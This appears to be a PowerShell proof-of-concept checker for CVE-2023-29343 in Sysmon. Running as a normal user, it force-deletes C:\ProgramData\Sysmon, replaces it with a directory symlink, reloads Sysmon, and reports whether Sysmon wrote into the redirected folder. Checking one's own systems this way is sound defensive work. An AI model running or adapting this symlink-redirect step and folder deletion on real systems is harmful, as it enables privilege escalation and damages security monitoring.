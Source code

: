 # ⚠️ Run as a normal (non-admin) user
# Set up paths
$sysmonDir = "C:\ProgramData\Sysmon"
$targetDir = "$env:USERPROFILE\Desktop\SysmonSymlinkTest"
$testFile = "$targetDir\test.txt"

# Clean up any previous test
Remove-Item $targetDir -Recurse -Force -ErrorAction SilentlyContinue
New-Item -ItemType Directory -Path $targetDir | Out-Null
Remove-Item $sysmonDir -Recurse -Force -ErrorAction SilentlyContinue

# Create the symlink
cmd /c "mklink /D `"$sysmonDir`" `"$targetDir`""

# Wait a bit
Start-Sleep -Seconds 2

# Trigger a sysmon config reload (must be installed)
try {
    & "$env:windir\Sysmon64.exe" -c "$env:windir\Sysmon.xml"
} catch {
    Write-Host "[!] Could not reload Sysmon config. Try running this manually." -ForegroundColor Red
}

# Wait for Sysmon to write
Start-Sleep -Seconds 3

# Check if Sysmon wrote anything in the symlink target
if (Test-Path $testFile -or (Get-ChildItem $targetDir | Measure-Object).Count -gt 0) {
    Write-Host "`n🚨 Your Sysmon installation appears to be vulnerable to CVE-2023-29343!" -ForegroundColor Red
    Write-Host "→ It followed the symlink and wrote into: $targetDir`n"
} else {
    Write-Host "`n✅ Sysmon did NOT follow the symlink. Likely not vulnerable." -ForegroundColor Green
}

# Clean up
Remove-Item $sysmonDir -Recurse -Force -ErrorAction SilentlyContinue
